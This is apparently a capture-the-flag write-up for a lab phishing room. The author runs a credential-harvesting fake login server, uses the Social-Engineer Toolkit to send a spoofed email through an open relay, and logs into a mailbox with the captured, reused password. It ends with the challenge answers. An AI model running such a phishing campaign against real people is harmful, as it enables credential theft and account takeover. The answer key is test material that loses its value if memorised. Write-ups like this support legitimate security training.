


## Phishing – Merry Clickmas

### Task 1 (Introduction)
I was asked to start both the AttackBox and the target machine to begin the challenge.

### Steps I followed
1. I started the AttackBox  
2. I started the target machine  
3. I made sure both machines were running properly  

### Task 2 (Phishing Exercise for TBFC)
In this task, I was first given an introduction to social engineering and how attackers trick users.

The goal was to create a fake login page and send it through a phishing email to capture user credentials.

### Steps I followed
1. I was given a Python file that could capture credentials entered on a fake login page  
2. I ran the Python file to start a local server  
3. I opened the page using the local IP in a browser to see what the victim would see  
    ```bash
    root@ip-10-48-153-160:~/Rooms/AoC2025/Day02# ./server.py 
    Starting server on http://0.0.0.0:8000
    10.48.153.160 - - [23/Dec/2025 11:59:24] "GET / HTTP/1.1" 200 -
    10.48.153.160 - - [23/Dec/2025 11:59:25] "GET /favicon.ico HTTP/1.1" 404 -
    ```
4) After that, I learned about the Social-Engineer Toolkit (SET)
5) I started SET by typing setoolkit
    
6) I selected Social-Engineering Attacks
7) Then I chose Mass Mailer Attack
8) After that, I selected E-Mail Attack Single Email Address
9) I filled in the email details as required(given)
    ```bash
    set:phishing> Send email to: factory@wareville.thm

    1. Use a gmail Account for your email attack.
    2. Use your own server or open relay

    set:phishing> 2
    set:phishing> From address: updates@flyingdeer.thm
    set:phishing> From name: Flying Deer
    set:phishing> Username for open-relay: 
    set:phishing> Password for open-relay: 
    set:phishing> SMTP email server address: 10.48.151.211
    set:phishing> Port number for the SMTP server [25]: 25
    set:phishing> Flag this message as high priority: no
    Do you want to attach a file: n
    Do you want to attach an inline file: n
    set:phishing> Email subject: Shipping Schedule Changes
    set:phishing> Send the message as html or plain [p]:
    set:phishing> Enter the body of the message:
    Please confirm the new schedule by visiting http://10.48.153.160:8000
    Kindly note that there have been significant changes to the shipping schedules.
    Flying Deer
    END
    [*] SET has finished sending the emails
    ```
10) After sending the phishing email, I waited and monitored the server output
    ```bash
    root@ip-10-48-153-160:~/Rooms/AoC2025/Day02# ./server.py 
    Starting server on http://0.0.0.0:8000
    10.48.151.211 - - [23/Dec/2025 12:09:01] "GET / HTTP/1.1" 200 -
    [2025-12-23 12:09:01] Captured -> username: admin    password: unranked-wisdom-anthem
    10.48.151.211 - - [23/Dec/2025 12:09:01] "POST /submit HTTP/1.1" 303 -
    ```
11) The credentials were successfully captured
12) I used the same password to log into the factory email portal
13) The password was reused, and I got access to the emails
    
14) From the mailbox, I found the delivery information

### Answers
-   What is the password used to access the TBFC portal\
`unranked-wisdom-anthem`
-   What is the total number of toys expected for delivery\
`1984000`